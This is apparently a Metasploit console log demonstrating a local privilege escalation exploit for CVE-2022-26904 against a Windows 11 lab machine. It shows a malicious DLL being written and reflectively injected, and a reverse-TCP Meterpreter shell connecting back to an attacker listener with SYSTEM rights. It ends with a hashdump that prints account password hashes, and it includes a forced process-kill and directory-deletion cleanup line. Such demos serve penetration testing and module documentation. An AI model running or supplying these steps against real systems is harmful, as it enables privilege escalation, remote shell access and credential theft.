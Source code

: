 ```


Exploit target:

   Id  Name
   --  ----
   0   Windows 11


msf exploit(windows/local/cve_2022_26904_superprofile) > check

[*] Checking if PromptOnSecureDesktop mitigation applied...
[+] PromptOnSecureDesktop is set to 1, should be safe to proceed!
[*] The target appears to be vulnerable. Vulnerable Windows 11 build detected!
msf exploit(windows/local/cve_2022_26904_superprofile) > exploit

[*] Started reverse TCP handler on 172.19.70.15:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if PromptOnSecureDesktop mitigation applied...
[+] PromptOnSecureDesktop is set to 1, should be safe to proceed!
[+] The target appears to be vulnerable. Vulnerable Windows 11 build detected!
[*] Step #1: Checking target environment...
[*] Payload DLL is 8704 bytes long
[*] Writing malicious DLL to C:\Users\normal\AppData\Local\Temp\UXjPXpYr.dll
[*] Marking DLL as full access for Everyone so that there are no access issues as the secondary user...
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching netsh to host the DLL...
[+] Process 7144 launched.
[*] Reflectively injecting the DLL into 7144...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[!] Cleanup may not occur automatically if you aren't using a Meterpreter payload so make sure to run the following command upon session completion:
[!] taskkill /IM "consent.exe" /F || taskkill /IM "narrator.exe" /F || taskkill /IM "narratorquickstart.exe" /F || rmdir /q /s C:\Users\TEMP || rmdir /q /s C:\Windows\System32\Narrator.exe.local
[!] You may need to run this more than once to ensure these files are properly deleted and Narrator.exe actually closes!
[*] Sending stage (200262 bytes) to 172.19.78.176
[*] Meterpreter session 2 opened (172.19.70.15:4444 -> 172.19.78.176:49795 ) at 2022-03-28 17:19:15 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
Background session 2? [y/N]
msf exploit(windows/local/cve_2022_26904_superprofile) > sessions

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x64/windows  WIN11-TEST\normal @ WIN11-TEST    172.19.70.15:38009 -> 172.19.78.176:4444  (172.19.78.176)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN11-TEST  172.19.70.15:4444 -> 172.19.78.176:49795  (172.19.78.176)
meterpreter > hashdump
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
normal:1002:aad3b435b51404eeaad3b435b51404ee:a38673ad58b19421e952fc317b62c3c4:::
normal2:1003:aad3b435b51404eeaad3b435b51404ee:ccc4aa1760d894d251095afc974ee2e3:::
```